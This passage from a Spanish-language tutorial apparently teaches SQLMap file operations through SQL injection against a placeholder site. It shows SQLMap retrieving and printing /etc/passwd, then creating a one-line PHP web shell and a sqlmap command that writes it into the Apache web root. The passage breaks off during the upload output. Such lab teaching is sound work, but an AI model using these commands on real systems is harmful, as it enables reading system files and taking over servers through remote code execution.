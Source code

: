 ```r
do you want confirmation that the remote file '/etc/passwd' has been successfully downloaded from the back-end DBMS file system? [Y/n] y

[17:40:14] [INFO] the local file '~/.sqlmap/output/www.example.com/files/_etc_passwd' and the remote file '/etc/passwd' have the same size (982 B)
files saved to [1]:
[*] ~/.sqlmap/output/www.example.com/files/_etc_passwd (same file)

[*] ending @ 17:40:14 /2020-11-19/
```

Como podemos ver, SQLMap dijo `files saved` a un archivo local. Podemos usar `cat` para ver su contenido:

```r
cat ~/.sqlmap/output/www.example.com/files/_etc_passwd

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...SNIP...
```

Hemos recuperado exitosamente el archivo remoto.

---

## Writing Local Files

Cuando se trata de escribir archivos en el servidor host, esto se vuelve mucho más restringido en los DMBS modernos, ya que podemos utilizar esto para escribir una Web Shell en el servidor remoto, y por lo tanto obtener ejecución de código y tomar control del servidor.

Es por eso que los DBMS modernos desactivan la escritura de archivos por defecto y necesitan ciertos privilegios para que los DBA puedan escribir archivos. Por ejemplo, en MySQL, la configuración `--secure-file-priv` debe desactivarse manualmente para permitir la escritura de datos en archivos locales utilizando la consulta SQL `INTO OUTFILE`, además de cualquier acceso local necesario en el servidor host, como el privilegio de escribir en el directorio que necesitamos.

Aun así, muchas aplicaciones web requieren la capacidad de que los DBMS escriban datos en archivos, por lo que vale la pena probar si podemos escribir archivos en el servidor remoto. Para hacer eso con SQLMap, podemos usar las opciones `--file-write` y `--file-dest`. Primero, preparemos una Web Shell básica en PHP y escribámosla en un archivo `shell.php`:

```r
echo '<?php system($_GET["cmd"]); ?>' > shell.php
```

Ahora, intentemos escribir este archivo en el servidor remoto, en el directorio `/var/www/html/`, la raíz web del servidor predeterminada para Apache. Si no conociéramos la raíz web del servidor, veremos cómo SQLMap puede encontrarla automáticamente:

```r
sqlmap -u "http://www.example.com/?id=1" --file-write "shell.php" --file-dest "/var/www/html/shell.php"

        ___
       __H__
 ___ ___[']_____ ___ ___  {1.4.11#stable}
|_ -| . [(]     | .'| . |
|___|_  [,]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org


[*] starting @ 17:54:18 /2020-11-19/

[17:54:19] [INFO] resuming back-end DBMS 'mysql'
[17:54:19] [INFO] testing connection to the target URL
```